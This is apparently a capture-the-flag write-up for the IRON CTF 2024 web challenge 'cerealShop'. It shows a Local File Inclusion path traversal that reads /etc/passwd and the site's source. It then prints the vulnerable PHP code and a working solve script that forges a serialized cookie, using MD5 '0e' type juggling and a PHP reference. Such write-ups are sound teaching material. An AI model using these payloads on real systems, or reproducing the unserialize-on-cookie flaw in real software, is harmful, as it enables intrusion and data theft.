






# IRON CTF 2024

# **WEB/cerealShop Writeup**



Upon opening the provided challenge link, we are presented with a site that looks like this:



The site has an input field we can test, but it lacks functionality. Upon checking the source code of the site, we find two hints:



1. We have a "?file" parameter where we can pass any filename. If the provided file is available, we can see its contents.
2. There is a hidden base64 string in the HTML code within a paragraph tag. When decoded, it provides a hint: .  “**I left a piece of code in a file called source , I bet you can't reach it**”

Using these hints, we can now test for a Local File Inclusion (LFI) vulnerability. First, we'll attempt to read the /etc/passwd file. 



Yes, the application is vulnerable to Local File Inclusion (LFI). Using this vulnerability, we can read the source file. If we pass

?file=../../../source in the URL, we get the PHP source code of the site.



```php
<?php
$file = $_GET['file'];
includeFile($file);
$FLAG = getenv('FLAG');
class Admin
{
	public $is_admin = "";
	public $your_secret = "";
	public $my_secret = "";
	public function __construct($in, $ysecret, $msecret)
	{
		$this->is_admin = md5($in);
		$this->your_secret = $ysecret;
		$this->my_secret = $msecret;
		}
	public function __toString()
	{
		return $this->is_admin;
	}
}
if (isset($_COOKIE['can_you_get_me'])) {
	try {
		$f = base64_decode($_COOKIE['can_you_get_me']);
		if (!$f) {
			throw new Exception("");
		}
		$unout = unserialize($f);
		if (!$unout) {
			throw new Exception("\n wrong cookie");
		}
		$unout->my_secret = $FLAG;
		if ($unout->is_admin == 0 && $unout->your_secret === $unout->my_secret) {
				echo "Okay here is your flag:", $FLAG;
		}
		else{
				echo "no ";
		} 
		catch (Exception $e) {
				echo "Error: " . $e->getMessage();
			}
	}
	?>
```

If you examine the code carefully, you can see that the flag is printed only when we satisfy two conditions:

1. is_admin should be equal to 0
2. your_secret should be equal to my_secret

To achieve this ,

1. Find a value that, when converted to an MD5 hash, starts with "0e". This exploits PHP's weak comparison ($unout->is_admin == 0), leading to type juggling. 
2. To bypass the second condition, use the reference operator like this: 

**$this->your_secret = &$this->my_secret;**

## Solve script:

```php
<?php
class Admin{
    public $is_admin="";
    public $your_secret="";
    public $my_secret="";
    public function __construct($in,$ysecret,$msecret){
        $this->is_admin=md5($in) ;
        $this->your_secret = &$this->my_secret;
	}
    public function __toString(){
    	return $this->is_admin;
    }
}

$o=new Admin('aabg7XSs','anything','anything');
echo base64_encode(serialize($o));

?>
```

```php
**output:**
Tzo1OiJBZG1pbiI6Mzp7czo4OiJpc19hZG1pbiI7czozMjoiMGUwODczODY0ODIxMzYwMTM3NDA5NTc3ODA5NjUyOTUiO3M6MTE6InlvdXJfc2VjcmV0IjtzOjA6IiI7czo5OiJteV9zZWNyZXQiO1I6Mzt9
```

Now, set this as a cookie named "can_you_get_me", and you'll obtain the flag. :)



 **flag: ironCTF{D353r1411Z4710N_4T_1T5_B35T}**